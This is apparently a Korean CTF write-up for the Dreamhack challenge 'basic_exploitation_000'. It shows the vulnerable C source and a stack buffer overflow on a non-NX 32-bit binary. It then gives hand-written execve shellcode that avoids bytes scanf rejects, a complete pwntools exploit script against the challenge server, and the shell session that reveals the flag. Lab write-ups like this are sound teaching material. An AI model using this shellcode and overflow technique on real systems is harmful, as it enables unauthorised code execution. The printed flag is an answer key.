https://honey-push-30b.notion.site/basic_exploitation_000-5a22200952704264b9062a1c88f57d74
# 문제파일 다운로드 및 환경

![문제파일 다운로드.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/0ba923aa-4ca5-47a7-84bf-f728bb225391/%EB%AC%B8%EC%A0%9C%ED%8C%8C%EC%9D%BC_%EB%8B%A4%EC%9A%B4%EB%A1%9C%EB%93%9C.png)

basic_exploitation_000 문제파일을 다운로드 받을 수 있다.

### **Environment**

```
Ubuntu 16.04
Arch:     i386-32-little
RELRO:    No RELRO
Stack:    No canary found
NX:       NX disabled
PIE:      No PIE (0x8048000)
RWX:      Has RWX segments
```

유의해야할 점은 다음과 같다.

환경이 i386-32-little 이므로 어셈블리어를 32비트로 작성해야함. (중요!)

코드는 아래와 같다.

```c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}

void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);
    alarm(30);
}

int main(int argc, char *argv[]) {

    char buf[0x80];

    initialize();
    
    printf("buf = (%p)\n", buf);
    scanf("%141s", buf);

    return 0;
}
```

이 때 scanf 함수로 버퍼의 크기인 0x80(128)보다 큰 값인 (141)을 입력받고 있고 이로 인해서 버퍼오버플로우가 발생할 수 있다.

32비트이므로 SFP의 크기는 4바이트일 것이므로 132바이트를 덮어쓰고 그 다음 RET주소를 덮어씌울 4바이트까지 총 136바이트로 버퍼 오버플로우를 발생시킬 수 있는데 141바이트를 입력받을 수 있으므로 공격하기에는 충분하다. 

이때 scanf 함수는  \x09, \x0a, \x0b, \x0c, \x0d, \x20 를 읽지 못하므로 쉘코드 중 바이트에서 이게 포함되어 있으면 안된다는 점을 유의 해야한다.

32비트는 스택프레임 포인터의 크기가 32/8 - 4바이트

64비트는 스택프레임 포인터의 크기가 64/8 - 8바이트

버퍼의 크기가 128바이트이므로 132바이트(SFP까지포함)까지 덮어씌워야함.

참고로 중간에 뻘짓을 하며 시간을 보냈는데 0xb가 12인줄 알고 0x8에 0x4를 더해서 왜안되지 하고 있었다 ㅋㅋ;

자 그러면 Return Address Overwirte 문제와는 다르게 쉘 권한을 얻을 수 있는 함수가 코드 내에는 존재하지 않는다. 그러면 어떻게 쉘권한을 얻을 수 있을까?

```c
Ubuntu 16.04
Arch:     i386-32-little
RELRO:    No RELRO
Stack:    No canary found
NX:       NX disabled
PIE:      No PIE (0x8048000)
RWX:      Has RWX segments
```

답은 환경에서 찾을 수 있다. 여기서 보면 NX비트가 disabled로 되어있는데 이는 스택, 힙 영역에서실행 권한을 제거 하는 보안을 적용하지 않았다는 것이다.

즉 스택에서 실행권한이 남아있으므로 내가 원하는 함수를 쉘코드로 넣고 RET주소를 쉘코드 시작주소로 덮어서 쉘코드를 실행시킬수 있다는 것이다. 심지어 쉘코드가 시작되는 주소인 버퍼의 주소도 printf로 나에게 알려준다.(매번 바뀐다 고정 값 아님)

따라서 쉘코드를 짜기 위해서 execve(”/bin//sh”,null,null)을 어셈블리어 형태로 구성해 주었다. 

```python
section .text
global _start
_start:
	xor eax,eax
	push 0x68732f2f
	push 0x6e69622f
	mov ebx,esp
	xor ecx,ecx ; ecx = NULL
	xor edx,edx  ; edx = NULL
	mov al, 0x8 ; 
	add al, 0x3 ;
	int 0x80       ; execve("/bin//sh", null, null)
```

이때 유이 해야할점은 al에 mov al, 0xb로 바로 0xb를 넣지 않고 0x8을 넣어준후 0x3을 더해서 0xb로 만들어 주었다. 그 이유는 0xb를 넣어주면 쉘코드에 0xb가 생겨서 scanf가 인식하지 못하는 바이트인 \x09, \x0a, \x0b, \x0c, \x0d, \x20 가 생기기 때문에 0x8을 넣고 0x3을 더하는 방식을 사용했다.

```python
┌──(root💀kali)-[~/바탕화면/basic_exploit_000]
└─# leafpad shell_code.asm
^C
                                                                           
┌──(root💀kali)-[~/바탕화면/basic_exploit_000]
└─# nasm -f elf shell_code.asm                                       130 ⨯
                                                                           
┌──(root💀kali)-[~/바탕화면/basic_exploit_000]
└─# objcopy --dump-section .text=shell_code.bin shell_code.o          
                                                                           
┌──(root💀kali)-[~/바탕화면/basic_exploit_000]
└─# xxd shell_code.bin
00000000: 31c0 682f 2f73 6868 2f62 696e 89e3 31c9  1.h//shh/bin..1.
00000010: 31d2 b008 0403 cd80
```

그리고 컴파일 과정을 통해 shell_code를 출력해보면 scanf가 인식하지 못하는 바이트가 없는 것을 확인할 수 있다.

```python
from pwn import *

p=remote('host3.dreamhack.games',20277)

shellcode=b'\x31\xc0\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x31\xd2\xb0\x08\x04\x03\xcd\x80'
padding=b'A'*(132-len(shellcode))

data=p.recvuntil(')')
address=data[7:-1]
address=p32(int(address,16)) #16진수 바이트 형식을 10진수로 변환후 p32로 엔디언까지 알아서 변환

payload=shellcode+padding+address

p.sendline(payload)

p.interactive()
```

shellcode를 넣어주고 132바이트 중 shellcode 길이만큼을 뺀 나머지도 덮어줘야하므로 132바이트에서 shellcode길이를 뺀 나머지 만큼 A로 덮어주고 buf의 주소를 받아 알맞게 추출한 뒤 16진수 바이트 형식의 int로 바꾸어서(str로 되어있으므로 이 과정이 필요함) p32함수를 이용해 32비트 형식에 맞게 리틀 엔디언까지 맞춰서 주소를 맞춰주었다.

그리고 쉘 코드 +패딩값(버퍼의 크기+ SFP(스택프레임 포인터))에 RET위치를 버퍼 시작 주소값으로 덮어서 exploit해주면 된다.

```c
──(root💀kali)-[~/바탕화면/basic_exploit_000]
└─# python3 ./answer.py                                              126 ⨯
[+] Opening connection to host3.dreamhack.games on port 20277: Done
/root/바탕화면/basic_exploit_000/./answer.py:8: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  data=p.recvuntil(')')
[*] Switching to interactive mode

$ ls
basic_exploitation_000
flag
run.sh
$ cat flag
DH{465dd453b2a25a26a847a93d3695676d}[*] Got EOF while reading in interactive
```

쉘 권한을 얻었으므로 ls 명령어를 통해 flag가 있음을 알고 cat 명령어를 통해 flag 값을 출력하여 `DH{465dd453b2a25a26a847a93d3695676d}`를 얻을 수 있다.

